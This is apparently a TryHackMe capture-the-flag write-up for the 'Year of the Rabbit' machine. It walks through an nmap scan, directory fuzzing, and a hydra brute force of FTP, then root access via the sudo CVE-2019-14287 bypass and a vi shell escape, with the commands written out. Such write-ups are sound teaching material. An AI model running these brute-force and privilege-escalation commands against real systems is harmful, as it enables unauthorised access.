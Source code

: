 ```yaml
---
date: 2020-05-22 06:14:32
layout: post
title: "YearoftheRabbit"
subtitle: A machine full of rabbit holes.
description: Medium Machine from Tryhackme
image: /writeup/assets/img/yearoftherabbit/year.png
optimized_image:
category: tryhackme
tags: medium,tryhackme
author: cirius
paginate: false
---
```

 Staring with nmap scan to look for open ports,
 ```bash
$ nmap -T4 -p- -A 10.10.45.92
 Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-16 00:38 IST
Nmap scan report for 10.10.45.92
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.13 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   187.89 ms 10.8.0.1
2   212.33 ms 10.10.45.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.06 seconds
```

There are 3 ports open 21,22,80.
Since ftp port was open tried to login anonymously,but as shown by nmap scan anonymous login was not allowed.

Moving on to the second interseting port , i.e 80.

The homepage of website hosted at port 80 contains default apache2 page.
Tried to search for directories and pages available on the website using ffuf.
```bash
ffuf -w wordlist -u http://10.10.45.92/FUZZ -e .php,.html,.txt,.zip
```
![placeholder](/writeup/assets/img/yearoftherabbit/ffuf.png "ffuf")

This shows that there is a assets directory.
Visiting the directory, I found a style.css file and a video file.
The style.css file pointed me towards **/sup3r_s3cr3t_fl4g.php**
![placeholder](/writeup/assets/img/yearoftherabbit/style.css "style")

Visited http://10.10.45.92/sup3r_s3cr3t_fl4g.php. A popup told me to switch off the javascript. If I do not switch off js then I was redirected to a youtube video.
After switching off the javascript the video that was inside assets is played on the page.

Listening the video there is voice of man's *burp*.This voice is not present in original video at youtube.

Since the man was burping. So I thought to open Burpsuite and see the requests.

Looking at the requests made by browser when visiting /sup3r_s3cr3t_fl4g.php, I found one more page 
![placeholder](/writeup/assets/img/yearoftherabbit/burp.png "burp")

As visible in image the browser is requesting this address,
*http://10.10.45.92/intermediary.php?hidden_directory=/WExYY2Cv-qU*
Visiting the above URL , I was redirected to /sup3r_s3cr3t_fl4g.php.

I removed the hidden_directory parameter from the URL

*http://10.10.45.92/intermediary.php**

Accessing the above URL, this also redirected me.

As the URL contained the hidden_directory=/WExYY2Cv-qU. So I accessed the directory directly.
```URL
http://10.10.45.92/WExYY2Cv-qU
```
This directory contained an Image.
Downloading the image and using strings command on the image to extract any string in the image.
```bash
strings Hot_Babe.png
```
![placeholder](/writeup/assets/img/yearoftherabbit/ftp.png "ftp")

This gave a ftp username as ***ftpuser*** and some passwords.

Now to get the correct password, I used hydra to perform a wordlist attack.
```bash
hydra -l ftpuser -P passwords 10.10.45.92 ftp -V
```
![placeholder](/writeup/assets/img/yearoftherabbit/hydra.png "hydra")

This gave me the correct passsword for the ftpuser.
***ftpuser:5iez1wGXKfPKQ***

Logged in inside ftp using the above credentials.
```bash
ftp 10.10.45.92
```
Found a file named eli's_creds.txt inside the ftp server.

Downloaded the file and opening it presented me with a obfuscated text.
```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is brainfuck language.
Used <a href="https://www.dcode.fr/brainfuck-language">decode.fr></a> website to execute this code written in Brainfuck language.
![placeholder](/writeup/assets/img/yearoftherabbit/brainfuck.png "brainfuck")
This gave the SSH credentials for user eli.

***eli:DSpDiM1wAEwid***

Logging In through SSH , a message was displayed 
![placeholder](/writeup/assets/img/yearoftherabbit/ssh.png "ssh")

This message said something about s3cr3t hiding place.
I though maybe there is some directory named s3cr3t.So , executed this command to look for the directory named s3cr3t.
```bash
find / -name s3cr3t -type d 2>/dev/null
```
This gave a location where this directory was located, */usr/games/s3cr3t*
![placeholder](/writeup/assets/img/yearoftherabbit/secret.png "s3cr3t")

Inside the s3cr3t directory, there was a file named **.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!**

Inside the file found the password for gwendoline user.
Now I can write that in a proper format,

***gwendoline:MniVCQVhQHUNI***

Used the password to switch user.

Got the user flag.

Now to escalate privileges to root. I started with sudo -l which showed a interseting information.
![placeholder](/writeup/assets/img/yearoftherabbit/sudo.png "sudo")

The sudoers file had an entry for gwendline user which said that gwendoline user can run vi command to read user.txt as every other user except root.

But to escalate privileges I needed to run the vi command as root.

Looking for the version of sudo, I found it to be 1.8.10

Looking for any vulnerability in sudo. I found a vulnerablity related to *!root* statement of sudoers file.(***CVE-2019-14287***)

According to the vulnerability if user id "-1" or "4294967295" is used while executing the command that is listed to be not run as root in sudoers file. Then, it would run as root.

In simple language, if I run the command with user id -1 or 4294967295. Then I can run the vi as root.
```bash
sudo -u \#$((ffffffff)) /usr/bin/vi /home/gwendoline/user.txt
```

ffffffff is hexadecimal of 4294967295
This would also work
```bash
sudo -u#-1/usr/bin/vi /home/gwendoline/user.txt
```

This opened the vi with user.txt as root.

Time for GTFOBins

Used the command displayed on GTFOBins, to get the root shell.

```bash
:set shell=/bin/bash
:shell
```

Now I got the root shell.

Got the root flag.
  

